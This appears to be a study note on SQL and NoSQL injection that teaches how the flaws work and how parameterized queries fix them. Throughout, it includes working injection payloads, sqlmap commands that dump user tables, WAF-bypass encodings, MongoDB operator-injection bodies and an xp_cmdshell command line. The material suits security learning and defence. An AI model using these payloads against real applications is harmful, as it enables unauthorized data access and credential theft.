

# 🗃️ SQL and NoSQL Injection

> [!abstract] TL;DR
> SQL injection occurs when user-controlled data is concatenated into SQL queries without parameterisation, allowing attackers to alter query logic. Variants: error-based (read DB errors), boolean-based blind (true/false responses), time-based blind (SLEEP() delays), UNION-based (retrieve additional columns), and second-order (payload stored then executed later). The only real fix is parameterized queries / prepared statements — not input validation, not WAFs alone, not ORMs by default. NoSQL databases are vulnerable to operator injection (MongoDB `$where`, `$gt`, `$ne`). sqlmap automates detection and exploitation. WAF bypass via encoding, case variation, and inline comments is straightforward for skilled attackers.

---

## Intuition — Analogy First

SQL injection is like a query being built by concatenating sticky notes. The programmer writes "SELECT * FROM users WHERE name = '" + sticky note + "'". If the user writes `' OR '1'='1` on their sticky note, the final query becomes `SELECT * FROM users WHERE name = '' OR '1'='1'` — which returns all users. The sticky note changed the meaning of the query.

Parameterized queries separate the query structure (the sticky note holder) from the user data (the sticky note content). The holder's shape is fixed before any user input arrives; the database engine processes the structure first, then plugs in the value as literal data — never as query logic.

---

## How It Works



---

## Key Concepts / Details

### Authentication Bypass

Classic `' OR '1'='1` pattern:

```sql
-- Vulnerable query
SELECT * FROM users WHERE username = '$username' AND password = '$password'

-- Payload: username = ' OR '1'='1'--
SELECT * FROM users WHERE username = '' OR '1'='1'-- ' AND password = 'anything'
-- The -- comments out the rest; '1'='1' is always true → all rows returned
```

The server sees any row returned as "login successful."

### UNION-Based SQL Injection — Data Extraction

UNION allows appending results of a second SELECT to the original:

```sql
-- Original query
SELECT name, description FROM products WHERE id = '$id'

-- Payload: id = 1 UNION SELECT username, password FROM users--
SELECT name, description FROM products WHERE id = '1'
UNION SELECT username, password FROM users--'
```

Requirements: same number of columns, compatible data types. Discovery:
```sql
1 ORDER BY 1--  (increase until error = column count found)
1 UNION SELECT NULL--
1 UNION SELECT NULL,NULL--  (find column count)
```

### Boolean-Based Blind SQLi

When output is not visible but behaviour differs based on true/false:

```
https://site.com/item?id=1 AND 1=1  → normal page (true condition)
https://site.com/item?id=1 AND 1=2  → different page / error (false condition)

# Extract data character by character:
https://site.com/item?id=1 AND SUBSTRING(username,1,1)='a'
```

sqlmap automates this with ~20 requests per character for all 95 printable ASCII characters.

### Time-Based Blind SQLi

When no output difference is visible:

```sql
-- MySQL: if admin user exists, sleep 5 seconds
1 AND IF(1=1,SLEEP(5),0)--
1; IF (1=1) WAITFOR DELAY '0:0:5'--  (MSSQL)
1 AND 1=1; SELECT pg_sleep(5)--       (PostgreSQL)
```

Network latency makes this unreliable; sqlmap uses adaptive timing.

### Second-Order SQL Injection

The most dangerous variant — bypassed by many WAFs:

```python
# Step 1: Register username (WAF sees single quotes, accepts "safe" input)
username = "admin'--"
db.execute("INSERT INTO users (username) VALUES (?)", [username])
# Username stored as literal: admin'--

# Step 2: Change password feature (developer assumes stored data is safe)
db.execute(f"UPDATE users SET password='{new_password}' WHERE username='{current_user}'")
# current_user = "admin'--" → query becomes:
# UPDATE users SET password='...' WHERE username='admin'-- '
# ← updates admin's password instead of the attacker's!
```

Prevention: parameterize ALL queries that use stored data, not just queries that directly receive user input.

### sqlmap — Automated SQL Injection

```bash
# Basic detection
sqlmap -u "https://target.com/page?id=1" --dbs

# POST request
sqlmap -u "https://target.com/login" --data="username=admin&password=test" --dbs

# Specific DB and table dump
sqlmap -u "https://target.com/page?id=1" -D database_name -T users --dump

# Proxy through Burp Suite for manual inspection
sqlmap -u "https://target.com/page?id=1" --proxy=http://127.0.0.1:8080

# WAF bypass: use tamper scripts
sqlmap -u "https://target.com/page?id=1" --tamper=space2comment,randomcase

# Time-based blind (when no error/boolean difference)
sqlmap -u "https://target.com/page?id=1" --technique=T --dbms=mysql
```

### WAF Bypass Techniques

```sql
-- Case variation
SeLeCT uSeRnAmE fRoM uSeRs

-- Inline comments (MySQL)
SE/**/LECT us/**/ername FR/**/OM us/**/ers

-- URL encoding
%53%45%4c%45%43%54  (SELECT URL-encoded)

-- Double URL encoding (bypasses some WAFs that decode once)
%2553%2545%254c%2545%2543%2554

-- Scientific notation in numeric parameters
id=1e0 UNION SELECT...   ← some WAFs only check string 'UNION'

-- No-space alternatives (MySQL)
SELECT(username)FROM(users)  ← parentheses instead of spaces
```

### Parameterized Queries — The Real Fix

```python
# Python (psycopg2 - PostgreSQL)
# BAD: string concatenation
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")

# GOOD: parameterized
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))

# Java (JDBC)
# BAD
Statement stmt = conn.createStatement();
stmt.execute("SELECT * FROM users WHERE id = " + userId);

# GOOD: PreparedStatement
PreparedStatement pstmt = conn.prepareStatement(
    "SELECT * FROM users WHERE id = ?");
pstmt.setInt(1, userId);
ResultSet rs = pstmt.executeQuery();
```

**Why ORMs are NOT sufficient**:
```python
# Django ORM - SAFE
User.objects.filter(id=user_id)  # Parameterised

# Django ORM - VULNERABLE (raw query with interpolation)
User.objects.extra(where=[f"id = {user_id}"])  # SQL injection!
User.objects.raw(f"SELECT * FROM users WHERE id = {user_id}")  # SQL injection!
```

### NoSQL Injection — MongoDB

MongoDB is vulnerable to operator injection when user input is used as query operators:

```javascript
// Vulnerable Node.js code
app.post('/login', (req, res) => {
    db.users.find({
        username: req.body.username,
        password: req.body.password
    });
});

// Attack payload (JSON body):
{
    "username": "admin",
    "password": {"$gt": ""}  // $gt: "" matches any non-empty password
}
// Query: {username: "admin", password: {$gt: ""}} → matches admin!

// $where operator injection (executes JavaScript):
db.users.find({$where: "this.username == 'admin' && this.password == '"+userInput+"'"})
// Payload: ' || '1'=='1  → authentication bypass
```

Fixes: strict input type validation (`typeof` checks), disable `$where` operator in MongoDB config, use mongoose with strict schema validation.

### GraphQL Injection

GraphQL's introspection and flexible querying create unique injection vectors:

```graphql
# Introspection disclosure (disable in production)
{__schema{types{name fields{name}}}}

# NoSQL injection via GraphQL argument
{user(id: "1' union select...") { ... }}

# Nested query DoS (N+1 amplification)
{users{posts{comments{replies{user{posts{...}}}}}}}
```

Mitigations: disable introspection in production, query depth limiting (max depth 5–7), complexity limits (max nodes 1000), persistent queries only.

---

## Real-World Notes

- HIBP (Have I Been Pwned) creator Troy Hunt estimates 45% of breaches in his dataset involve SQL injection
- CVE-2019-19781 (Citrix ADC): path traversal + SQLi allowed unauthenticated RCE on Citrix VPN appliances — exploited by APT5 within days of disclosure
- MSSQL `xp_cmdshell` enables OS command execution directly from SQLi: `'; EXEC xp_cmdshell('whoami')--` — disabled by default since SQL Server 2005 but commonly re-enabled by DBAs
- Prepared statements add ~5–10% overhead on simple queries; the performance cost is negligible vs. the risk

---

## Common Pitfalls

1. **Input validation as the primary defence** — Blacklisting quotes/keywords is insufficient; encoding, multi-byte characters, and second-order injection bypass it
2. **Parameterizing user input only** — Second-order injection uses stored (previously validated) data; parameterize all query construction
3. **Trusting ORM safety** — Raw query methods, `extra()`, and string interpolation within ORMs reintroduce injection; audit ORM usage patterns
4. **Storing passwords in plaintext** — SQLi extracting a users table with bcrypt hashes requires offline cracking; plaintext gives immediate access

---

## Related Concepts

- [[OWASP_Top_10|← OWASP Top 10]] — A03 Injection category
- [[API_Security|→ API Security]] — NoSQL/GraphQL injection in API contexts
- [[Exploitation_Techniques|→ Exploitation Techniques]] — sqlmap usage in pentest context
- [[_MOC_Web_Security|↑ Web Security MOC]]

---

## Review Questions

1. A login form uses Django ORM's `filter()` method. A developer says "Django prevents SQLi." Show a code pattern where Django ORM is still vulnerable to SQL injection.
2. You can only observe whether a page loads (200) or returns an error (500) — no data is visible. Describe the algorithm to extract the admin password using boolean-based blind SQLi, and estimate the minimum number of requests needed for a 10-character password.
3. A MongoDB application receives authentication via JSON. Write the `$ne` operator injection payload and the server-side fix using mongoose schema validation.

---

## Sources

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- sqlmap Documentation: https://sqlmap.org/
- MongoDB Injection: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection

#Cybersecurity #WebSecurity #SQLi #NoSQL #Injection #sqlmap
